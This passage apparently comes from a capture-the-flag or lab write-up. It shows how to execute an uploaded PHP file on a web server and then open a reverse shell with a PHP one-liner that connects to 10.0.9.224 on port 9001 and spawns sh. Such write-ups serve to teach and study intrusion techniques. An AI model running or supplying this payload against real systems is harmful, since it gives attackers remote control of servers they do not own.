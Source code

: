 * By accessing our created file oi.php, we can execute it remotely within the web server.

<p align="center">
   <img width="500" height="100" src="./img/13.png">
</p>

* knowing that it is a PHP server, we can create the reverse with the payload;

```
php -r '$sock=fsockopen("10.0.9.224",9001);exec("sh <&3 >&3 2>&3");'
```
<p align="center">
   <img width="800" height="200" src="./img/14.png">
</p>

<p align="center">Done!</p>

<p align="center">
  <img width="300" height="200" src="https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExOXJqcXB6NTgwM211cGNhZXE2OGFld2doN3hpa3Z6ZGNwbG95d3Y3YSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/l0Iyl55kTeh71nTXy/giphy.gif">
</p>